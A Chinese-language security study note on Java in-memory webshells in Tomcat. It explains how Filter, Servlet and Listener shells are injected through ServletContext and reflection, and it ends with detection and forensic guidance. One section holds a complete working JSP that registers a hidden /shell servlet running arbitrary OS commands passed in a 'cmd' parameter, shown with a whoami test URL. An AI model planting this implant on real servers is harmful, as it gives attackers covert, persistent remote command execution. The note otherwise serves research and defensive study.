<%@ page import="javax.servlet.ServletContext" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Servlet Version Check</title>
</head>
<body>
    <h1>Servlet Version Information</h1>

    <%
        // 获取 ServletContext 对象
        ServletContext servletContext = request.getServletContext();

        // 获取 Servlet 版本
        int majorVersion = servletContext.getMajorVersion();
        int minorVersion = servletContext.getMinorVersion();
        boolean isServlet30Plus = majorVersion >= 3;

        // 获取 Servlet 容器的版本信息
        String serverInfo = servletContext.getServerInfo();

        // 检查是否支持注解（Servlet 3.0+ 才支持 @WebServlet 等注解）
        boolean supportsAnnotations = servletContext.getClass().isAnnotationPresent(WebServlet.class);

        // 检查是否支持异步处理
        boolean supportsAsync = servletContext.getEffectiveMajorVersion() >= 3;
        // 获取当前Web应用实际使用的 Servlet 版本
        int effectiveMajorVersion = servletContext.getEffectiveMajorVersion();
        int effectiveMinorVersion = servletContext.getEffectiveMinorVersion();
        
        // 输出结果
        out.println("<p><strong>Servlet Version(Servlet容器支持的Servlet版本号):</strong> " + majorVersion + "." + minorVersion + "</p>");
        out.println("<p><strong>Servlet Container Info:</strong> " + serverInfo + "</p>");
        out.println("<p><strong>当前 ServletContext 类本身是否有 @WebServlet 注解 - Annotations (@WebServlet, etc.):</strong> " + (supportsAnnotations ? "Yes" : "No") + "</p>");
        out.println("<p><strong>Effective Servlet Version(当前Web应用实际使用的Sevlet规范版本[基于web.xml判断]):</strong> " + effectiveMajorVersion + "." + effectiveMinorVersion + "</p>");
    %>

</body>
</html>
```


> 这是 vulhub 的 s2-045 的 docker 环境, 其中的 Jetty 9.2.11 本身是支持 Servlet3.0+ 的, 不过 Web.xml 定义的 Servlet 规范是 2.3, 因此实际上是不能用 3.0+ 的特性的

---

### Filter 内存马

> [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#filter-内存马)

Filter 我们称之为过滤器，是 Java 中最常见也最实用的技术之一，通常被用来处理静态 web 资源、访问权限控制、记录日志等附加功能等等。一次请求进入到服务器后，将先由 Filter 对用户请求进行预处理，再交给 Servlet。

通常情况下，Filter 配置在配置文件(`web.xml`)和注解(如 `@WebFilter`)中，在其他代码中如果想要完成注册，主要有以下几种方式：

- 使用 `ServletContext` 的 `addFilter/createFilter` 方法注册

  例如:

  ```java
  FilterRegistration.Dynamic filter = servletContext.addFilter("myFilter", new MyFilter());
  filter.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), true, "/*");
  ```

- 使用 `ServletContextListener` 的 `contextInitialized` 方法在服务器启动时注册

  `ServletContextListener` 是 Java EE 规范中的一种监听器，它可以在服务器启动时执行一些操作。

  通过在 `contextInitialized` 方法中调用 `ServletContext` 的 `addFilter()` 方法，可以在服务器启动时动态注册 `Filter`。

  例如:

  ```java
  public class MyContextListener implements ServletContextListener {
      @Override
      public void contextInitialized(ServletContextEvent sce) {
          ServletContext servletContext = sce.getServletContext();
          FilterRegistration.Dynamic filter = servletContext.addFilter("myFilter", new MyFilter());
          filter.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), true, "/*");
      }
  }
  ```

  > 后续在 Listener 内存马中进行描述

- 使用 `ServletContainerInitializer` 的 `onStartup` 方法在初始化时注册

  `ServletContainerInitializer` 是 Servlet 3.0 中引入的一个接口，允许你在 Web 应用启动时做一些初始化工作。

  在实现 `ServletContainerInitializer` 时，可以通过 `onStartup()` 方法动态注册 `Filter`。

  与 `ServletContextListener` 不同的是，`ServletContainerInitializer` 是通过 SPI（服务提供者接口）机制自动加载的，因此它的调用顺序是由容器控制的，通常用于对整个应用进行初始化配置。

  例如:

  ```java
  public class MyServletInitializer implements ServletContainerInitializer {
      @Override
      public void onStartup(Set<Class<?>> c, ServletContext ctx) throws ServletException {
          FilterRegistration.Dynamic filter = ctx.addFilter("myFilter", new MyFilter());
          filter.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), true, "/*");
      }
  }
  ```

  > 这种注册方式不算严格的“动态”注册，因为它发生在应用初始化阶段，而不是运行时随时可以改变。

---

本节只讨论使用 ServletContext 添加 Filter 内存马的方法。

首先来看一下 `createFilter` 方法，按照注释，这个类用来在调用 `addFilter` 向 ServletContext 实例化一个指定的 Filter 类。


这个类还约定了一个事情，那就是如果这个 ServletContext 传递给 ServletContextListener 的 `ServletContextListener.contextInitialized` 方法，该方法既未在 `web.xml` 或 `web-fragment.xml` 中声明，也未使用 `javax.servlet.annotation.WebListener` 进行注释，则会抛出 `UnsupportedOperationException` 异常，这个约定其实是非常重要的一点。

> 也即 Listener 必须在静态上下文中定义，具体来说，应该在 `web.xml` 文件或使用 `@WebListener` 注解进行声明。这种设计确保了在应用启动时，所有的监听器都已经明确配置好，从而避免了动态添加可能带来的不确定性和错误。
>
> ---
>
> 我们利用此项做内存马注入的话, 首先排除利用 `web.xml` 注册 Listener, 其次注解又不能在 JSP 文件中使用, 因此不能直接使用 `ServletContext.addFilter` 而需要另辟蹊径

---

接下来看 `addFilter` 方法

`ServletContext` 提供了三个重载的 `addFilter` 方法，用于在不同场景下添加 `Filter`。这些方法分别接收以下参数：

- 字符串类型的 `filterName` 和 `Filter` 对象

  `addFilter(String filterName, Filter filter)`

  这个方法接收一个 `filterName` 和一个 `Filter` 实例，用于直接添加一个已经实例化的 `Filter`

  ```java
  Filter myFilter = new MyFilter();
  FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("myFilter", myFilter);
  ```

- 字符串类型的 `filterName` 和 `className` 字符串

  `addFilter(String filterName, String className)` 

  用于添加一个通过类名指定的 `Filter`

  ```java
  FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("myFilter", "com.example.MyFilter");
  ```

- 字符串类型的 `filterName` 和 `Filter` 子类的 `Class` 对象

  `addFilter(String filterName, Class<? extends Filter> filterClass)`

  用于添加一个通过类对象指定的 `Filter`

  ```java
  FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("myFilter", MyFilter.class);
  ```

所有这些方法都会返回一个 `FilterRegistration.Dynamic` 对象，该对象实际上是 `FilterRegistration` 的一个子类，用于进一步配置和管理动态添加的 `Filter`。例如:

```java
FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("myFilter", MyFilter.class);
filterRegistration.addMappingForUrlPatterns(EnumSet.of(DispatcherType.REQUEST), true, "/*");
filterRegistration.setInitParameter("paramName", "paramValue");
```

---

`addFilter` 方法实际上就是动态添加 filter 的最核心和关键的方法，但是这个类中同样约定了 `UnsupportedOperationException` 异常

由于 Servlet API 只是提供接口定义，具体的实现还要看具体的容器，那我们首先以 Tomcat 7.0.96 为例，看一下具体的实现细节。相关实现方法在 `org.apache.catalina.core.ApplicationContext#addFilter` 中。


> Tomcat8.5.100 中亦是如此:
>
> 

可以看到，这个方法创建了一个 FilterDef 对象，将 filterName、filterClass、filter 对象初始化进去，使用 StandardContext 的 `addFilterDef` 方法将创建的 FilterDef 储存在了 StandardContext 中的一个 Hashmap filterDefs 中，然后 new 了一个 ApplicationFilterRegistration 对象并且返回，并没有将这个 Filter 放到 FilterChain 中，单纯调用这个方法不会完成自定义 Filter 的注册。并且这个方法判断了一个状态标记，如果程序以及处于运行状态中，则不能添加 Filter。

这时我们肯定要想，能不能直接操纵 FilterChain 呢？FilterChain 在 Tomcat 中的实现是 `org.apache.catalina.core.ApplicationFilterChain`，这个类提供了一个 `addFilter` 方法添加 Filter，这个方法接受一个 ApplicationFilterConfig 对象，将其放在 `this.filters` 中。答案是可以，但是没用，因为对于每次请求需要执行的 FilterChain 都是动态取得的。

> [Filter的基本工作原理](#Filter的基本工作原理)
>
> - `FilterChain` 是 Java Servlet API 中的一个接口，用于表示一组 `Filter` 的链条。每个 `Filter` 都可以在请求到达目标 `Servlet` 之前或响应返回客户端之前对请求和响应进行处理。`FilterChain` 的主要作用是管理和执行这些 `Filter`。
>
> - `FilterChain` 维护了一个过滤器的有序列表，这些过滤器会按顺序对请求和响应进行处理。
> - `FilterChain` 提供了一个 `doFilter` 方法，用于将请求和响应传递给链中的下一个过滤器或最终的目标 `Servlet`。
>
> 每次请求的 `FilterChain` 都是动态取得的，因此直接操作 `FilterChain` 并不能全局影响所有请求。
>
> 强行在一次请求的 `FilterChain` 中添加一个 `Filter`，在该请求处理结束后，这个 `FilterChain` 实例也会被销毁, 相应的添加的 Filter 也会销毁; 每次请求都会生成一个新的 `FilterChain` 实例，这个实例只在当前请求的生命周期内有效, 只会影响当前请求的 `FilterChain` 实例，不会影响其他请求。
>
> **请求生命周期**:
>
> - **请求到达服务器**：当一个请求到达服务器时，服务器会根据请求的 URL 和过滤器的配置动态生成一个新的 `FilterChain` 实例。
> - **执行过滤器链**：服务器依次调用 `FilterChain` 中的每个过滤器的 `doFilter` 方法。
> - **请求处理结束**：当所有过滤器和目标 `Servlet` 处理完请求后，`FilterChain` 实例的生命周期也随之结束。

---

那Tomcat 是如何处理一次请求对应的 FilterChain 的呢？在 ApplicationFilterFactory 的 `createFilterChain` 方法中，可以看到流程如下：

- 在 context 中获取 filterMaps，并遍历匹配 url 地址和请求是否匹配；
- 如果匹配则在 context 中根据 filterMaps 中的 filterName 查找对应的 filterConfig；
- 如果获取到 filterConfig，则将其加入到 filterChain 中
- 后续将会循环 filterChain 中的全部 filterConfig，通过 `getFilter` 方法获取 Filter 并执行 Filter 的 `doFilter` 方法。

通过上述流程可以知道，每次请求的 FilterChain 是动态匹配获取和生成的，如果想添加一个 Filter ，需要在 StandardContext 中 filterMaps 中添加 FilterMap，在 filterConfigs 中添加 ApplicationFilterConfig。这样程序创建时就可以找到添加的 Filter 了。

在之前的 ApplicationContext 的 addFilter 中将 filter 初始化存在了 StandardContext 的 filterDefs 中，那后面又是如何添加在其他参数中的呢？

在 StandardContext 的 `filterStart` 方法中生成了 filterConfigs。


在 ApplicationFilterRegistration 的 `addMappingForUrlPatterns` 中生成了 filterMaps。


而这两者的信息都是从 filterDefs 中的对象获取的。

在了解了上述逻辑后，在应用程序中动态的添加一个 filter 的思路就清晰了：

- 调用 ApplicationContext 的 addFilter 方法创建 filterDefs 对象，需要反射修改应用程序的运行状态，加完之后再改回来；
- 调用 StandardContext 的 filterStart 方法生成 filterConfigs；
- 调用 ApplicationFilterRegistration 的 addMappingForUrlPatterns 生成 filterMaps；
- 为了兼容某些特殊情况，将我们加入的 filter 放在 filterMaps 的第一位，可以自己修改 HashMap 中的顺序，也可以在自己调用 StandardContext 的 addFilterMapBefore 直接加在 filterMaps 的第一位。

基于以上思路的实现在 threedr3am 师傅的[这篇文章](https://xz.aliyun.com/t/7388)中有实现代码，这里不再重复

既然知道了需要修改的关键位置，那就没有必要调用方法去改，直接用反射加进去就好了，其中中间还有很多小细节可以变化，但都不是重点，略过。

具体示例及实现部分可以在本文同级目录下的 [Tomcat内存马/Filter内存马/servletContext-addFilter](Tomcat内存马/Filter内存马/servletContext-addFilter.md) 中查看

---

### Servlet内存马

> [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#servlet-内存马)

Servlet 是 Server Applet（服务器端小程序）的缩写，用来读取客户端发送的数据，处理并返回结果。也是最常见的 Java 技术之一

与 Filter 相同，本小节也仅仅讨论使用 ServletContext 的相关方法添加 Servlet。

还是首先来看一下实现类 ApplicationContext 的 `addServlet` 方法:


与上一小节看到的 `addFilter` 方法十分类似。那么我们面临同样的问题，在一次访问到达 Tomcat 时，是如何匹配到具体的 Servlet 的？这个过程简单一点，只有两部走：

- ApplicationServletRegistration 的 `addMapping` 方法调用 `StandardContext#addServletMapping` 方法，在 mapper 中添加 URL 路径与 Wrapper 对象的映射（Wrapper 通过 this.children 中根据 name 获取）
- 同时在 servletMappings 中添加 URL 路径与 name 的映射。

这里直接调用相关方法进行添加，当然是用反射直接写入也可以，有一些逻辑较为复杂。

测试代码在 [org.su18.memshell.web.servlet.AddTomcatServlet](https://github.com/su18/MemoryShell/blob/main/memshell-test/memshell-test-tomcat/src/org/su18/memshell/test/tomcat/AddTomcatServlet.java) 中，访问这个 servlet 会在程序中生成一个新的 Servlet :`/su18`

具体示例及实现部分可以在本文同级目录下的 [Tomcat内存马/Servlet内存马/servletContext-addServlet](Tomcat内存马/Servlet内存马/servletContext-addServlet.md) 中查看

---

### Listener内存马

> [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#listener-内存马)

Servlet 和 Filter 相对于 Listener 更常用, 因此更容易找到内存马注入的相关材料, 而 Listener 相对而言就冷门了一些

Listener(监听器)用于监听对象/流程的创建与销毁，通过 Listener 可以自动触发一些操作，因此依靠它也可以完成内存马的实现。

先来了解一下 Listener 是干什么的，看一下 Servlet API 中的注释。


在应用中可能调用的监听器如下：

- ServletContextListener：用于监听整个 Servlet 上下文（创建、销毁）
- ServletContextAttributeListener：对 Servlet 上下文属性进行监听（增删改属性）
- ServletRequestListener：对 Request 请求进行监听（创建、销毁）
- ServletRequestAttributeListener：对 Request 属性进行监听（增删改属性）
- javax.servlet.http.HttpSessionListener：对 Session 整体状态的监听
- javax.servlet.http.HttpSessionAttributeListener：对 Session 属性的监听

可以看到 Listener 也是为一次访问的请求或生命周期进行服务的，在上述每个不同的接口中，都提供了不同的方法，用来在监听的对象发生改变时进行触发。而这些类接口，实际上都是 `java.util.EventListener` 的子接口。

这里我们看到，在` ServletRequestListener` 接口中，提供了两个方法在 request 请求创建和销毁时进行处理，比较适合我们用来做内存马。


> 除了这个 Listener，其他的 Listener 在某些情况下也可以触发作为内存马的实现，[原文](https://su18.org/post/memory-shell/#listener-%E5%86%85%E5%AD%98%E9%A9%AC)里没有对每个都进行触发测试，感兴趣的师傅可以自测。
>
> ---
>
> PS: 这里沿着原文作者的思路梳理 Listener 内存马原理, 也暂且不会对其他 Listener 做单独测试

ServletRequestListener 提供两个方法：`requestInitialized` 和 `requestDestroyed`，两个方法均接收 ServletRequestEvent 作为参数，ServletRequestEvent 中又储存了 ServletContext 对象和 ServletRequest 对象，因此在访问请求过程中我们可以在 request 创建和销毁时实现自己的恶意代码，完成内存马的实现。


Tomcat 中 EventListeners 存放在 StandardContext 的 applicationEventListenersObjects 属性中，同样可以使用 StandardContext 的相关 add 方法添加。


---

## 示例 -Tomcat-ServletAPI型内存马

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)
>
> [利用“进程注入”实现无文件复活 WebShell - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/172753.html)

---

### 环境配置

[安装Tomcat](../../../../../Language/Java/Java.md#tomcat安装) -> [配置Tomcat](../../../../../Language/Java/Java.md#tomcat配置)

---

### 编写与部署ServletAPI型内存马

在 Tomcat 的 `webapps` 目录下, 常见一个新的子目录, 例如 `java-memshell-tomcat-servletapi`

Tomcat 会自动部署这个应用, 可以通过 `http://localhost:8080/java-memshell-tomcat-servletapi` 访问此应用


---

下面的代码先是创建了一个恶意的servlet，然后获取当前的StandardContext，然后将恶意servlet封装成wrapper添加到StandardContext的children当中，最后添加ServletMapping将访问的URL和wrapper进行绑定。

```java
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="javax.servlet.Servlet" %>
<%@ page import="javax.servlet.ServletConfig" %>
<%@ page import="javax.servlet.ServletRequest" %>
<%@ page import="javax.servlet.ServletResponse" %>
<%@ page import="javax.servlet.ServletException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.lang.reflect.Field" %>

<%
    // 创建恶意Servlet
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            // 下面这行中的 System 语句在 Linux Docker 容器中会报错, 编译都过不了，在Windows上可以正常解析
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    // 获取StandardContext
    StandardContext standardCtx = null;
    ServletContext servletContext = request.getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    Object appContext = appContextField.get(servletContext);

    Field standardCtxField = appContext.getClass().getDeclaredField("context");
    standardCtxField.setAccessible(true);
    standardCtx = (StandardContext) standardCtxField.get(appContext);

    if (standardCtx != null) {
        // 用Wrapper对其进行封装
        org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
        newWrapper.setName("summermemshel");
        newWrapper.setLoadOnStartup(1);
        newWrapper.setServlet(servlet);
        newWrapper.setServletClass(servlet.getClass().getName());

        // 添加封装后的恶意Wrapper到StandardContext的children当中
        standardCtx.addChild(newWrapper);

        // 添加ServletMapping将访问的URL和Servlet进行绑定
        standardCtx.addServletMappingDecoded("/shell", "summermemshel");
    } else {
        out.println("Failed to get StandardContext");
    }
%>
```

新建一个 `index.jsp` 文件, 将上述代码贴在其中

访问 `http://localhost:8080/java-memshell-tomcat-servletapi/index.jsp`


验证 servletapi 内存马: `http://localhost:8080/java-memshell-tomcat-servletapi/shell?cmd=whoami`

> 不可以加 `/index.jsp`, 否则会 404
>
> 
>
> 

使用新增servlet的方式就需要绑定指定的URL

如果我们想要更加隐蔽，做到内存马与URL无关，无论这个URL是原生servlet还是某个struts action，甚至无论这个url是否真的存在，只要我们的请求传递给tomcat，tomcat就能相应我们的指令，那就得通过注入新的或修改已有的filter或者listener的方式来实现了。

> 比如早期 rebeyond 师傅开发的 memshell，就是通过修改 `org.apache.catalina.core.ApplicationFilterChain` 类的 `internalDoFilter` 方法来实现的，后期冰蝎最新版本的内存马为了实现更好的兼容性，选择 hook `javax.servlet.http.HttpServlet#service` 函数，在 weblogic 选择hook `weblogic.servlet.internal.ServletStubImpl#execute` 函数。

---

## 检测与排查

> [一文看懂内存马 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/274466.html)
>
> [内存马检测与排查 | micgo's blog](https://micgo.top/java-security/内存马检测和排查/)
>
> [查杀Java web filter型内存马 | 回忆飘如雪 (gv7.me)](https://gv7.me/articles/2020/kill-java-web-filter-memshell/)
>
> [Filter/Servlet型内存马的扫描抓捕与查杀 | 回忆飘如雪 (gv7.me)](https://gv7.me/articles/2020/filter-servlet-type-memshell-scan-capture-and-kill/)

---

### 源码检测

在 Java 中，只有被JVM加载后的类才能被调用，或者在需要时通过反射通知JVM加载。

所以特征都在内存中，表现形式为被加载的class。

需要通过某种方法获取到JVM的运行时内存中已加载的类， Java本身提供了Instrumentation类来实现运行时注入代码并执行，因此产生一个检测思路：`注入jar包-> dump已加载class字节码->反编译成java代码-> 源码webshell检测`

这样检测比较消耗性能，我们可以缩小需要进行源码检测的类的范围，通过如下的筛选条件组合使用筛选类进行检测:

- 新增的或修改的
- 没有对应class文件的
- xml配置中没注册的
- 冰蝎等常见工具使用的
- filterchain中排第一的filter类

还有一些比较弱的特征可以用来辅助检测，比如类名称中包含shell或者为随机名，使用不常见的classloader加载的类等等

另外，有一些工具可以辅助检测内存马，如 [java-memshell-scanner](https://github.com/c0ny1/java-memshell-scanner) 是通过jsp扫描应用中所有的filter和servlet，然后通过名称、对应的class是否存在来判断是否是内存马


---

### 内存马排查

如果我们通过检测工具或者其他手段发现了一些内存webshell的痕迹，需要有一个排查的思路来进行跟踪分析，也是根据各类型的原理，列出一个排查思路。

- 如果是jsp注入，日志中排查可疑jsp的访问请求

- 如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法

  根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

- 如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。

- 如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200


---

## 相关链接

- [JavaWeb 内存马一周目通关攻略 | 素十八 (su18.org)](https://su18.org/post/memory-shell/#前言)
- [su18/MemoryShell: JavaWeb MemoryShell Inject/Scan/Killer/Protect Research & Exploring (github.com)](https://github.com/su18/MemoryShell)
- [Getshell/Mshell: Memshell-攻防内存马研究 (github.com)](https://github.com/Getshell/Mshell)
- [pen4uin/java-memshell-generator: 一款支持自定义的 Java 内存马生成工具｜A customizable Java in-memory webshell generation tool. (github.com)](https://github.com/pen4uin/java-memshell-generator)
- [W01fh4cker/LearnJavaMemshellFromZero: 【三万字原创】完全零基础从0到1掌握Java内存马，公众号：追梦信安 (github.com)](https://github.com/W01fh4cker/LearnJavaMemshellFromZero)
- [零基础从0到1掌握Java内存马（1） - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13638?u_atoken=f94be6653218aa4ad31b48985b8db228&u_asession=01G_otl48uZbhtFS0zTvraxCTpL775ryvn2BCv_urM3wJZocetiIjcTkGZHTHzr0sFJB-YY_UqRErInTL5mMzm-GyPlBJUEqctiaTooWaXr7I&u_asig=05WFvKOct9DmHgJDMC2jUSYI-d12JjWIBFR_2C9LIG1Qy7HuQAgqufwFJtgwT7YYpzeWrUbOQgtRqHtznbYOeIzfOE3faK3Wv5cAgyU_aN0MZzSsimizOQey5k3rVs39J4bkoyz_cmodpJV__z1NxPgwNJLrNXIpCieZ_o8bIP-oXBzhvSc0Kr8URjOX9Xe4tkoZl-WF4u8ydejJuYPCesMD19Q38FK8cvAidY-tr1msXw7V-flYvqbShJOEtrJHuurp1rJwV6NFU5VfQC_Po_bX3JX0FBQ6mF-iZLbT5R6TF6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=Tpg%2FOCFFpc8Ne9BDq2Y0iKlFyEs%3D#toc-23)

---


